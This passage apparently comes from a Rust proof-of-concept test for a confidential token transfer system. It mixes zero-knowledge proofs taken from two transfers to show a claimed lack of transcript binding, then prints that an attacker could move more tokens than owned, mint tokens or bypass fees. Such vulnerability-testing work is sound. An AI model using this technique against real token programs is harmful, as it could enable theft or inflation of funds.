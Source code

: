 ```rust
        &aes_key_2,
        destination_pubkey_2,
        Some(auditor_pubkey_2),
    )
    .unwrap();
    
    // Verify that each individual proof is valid
    equality_proof_data_1.verify_proof().unwrap();
    ciphertext_validity_proof_data_with_ciphertext_1.proof_data.verify_proof().unwrap();
    range_proof_data_1.verify_proof().unwrap();
    
    equality_proof_data_2.verify_proof().unwrap();
    ciphertext_validity_proof_data_with_ciphertext_2.proof_data.verify_proof().unwrap();
    range_proof_data_2.verify_proof().unwrap();
    
    // Verify that each complete transfer is valid when using its own proofs
    TransferProofContext::verify_and_extract(
        equality_proof_data_1.context_data(),
        ciphertext_validity_proof_data_with_ciphertext_1.proof_data.context_data(),
        range_proof_data_1.context_data(),
    )
    .unwrap();
    
    TransferProofContext::verify_and_extract(
        equality_proof_data_2.context_data(),
        ciphertext_validity_proof_data_with_ciphertext_2.proof_data.context_data(),
        range_proof_data_2.context_data(),
    )
    .unwrap();
    
    // Now demonstrate the vulnerability: Mix proofs from different transfers
    // Use equality proof from Transfer 1, but ciphertext validity and range proof from Transfer 2
    
    // This should ideally fail, but due to the lack of transcript binding, it may succeed
    // depending on the specific validation checks in place
    let result = TransferProofContext::verify_and_extract(
        equality_proof_data_1.context_data(),
        ciphertext_validity_proof_data_with_ciphertext_2.proof_data.context_data(),
        range_proof_data_2.context_data(),
    );
    
    // The vulnerability exists if this succeeds or fails with an error that's not related to
    // transcript binding/consistency
    match result {
        Ok(_) => {
            // If this succeeds, it's a clear demonstration of the vulnerability
            println!("VULNERABILITY CONFIRMED: Mixed proofs from different transfers were accepted!");
            println!("This allows an attacker to potentially:");
            println!("1. Transfer more tokens than they own");
            println!("2. Create tokens out of thin air");
            println!("3. Bypass fee calculations");
        }
        Err(e) => {
            // Even if it fails, if it fails for reasons other than transcript binding issues,
            // the vulnerability may still exist but is being caught by other checks
            println!("Mixed proofs failed verification with error: {:?}", e);
            println!("Analyzing the error to determine if the vulnerability exists...");
            
            match e {
                TokenProofExtractionError::ElGamalPubkeyMismatch => {
                    // This error indicates that the ElGamal public keys don't match between proofs
```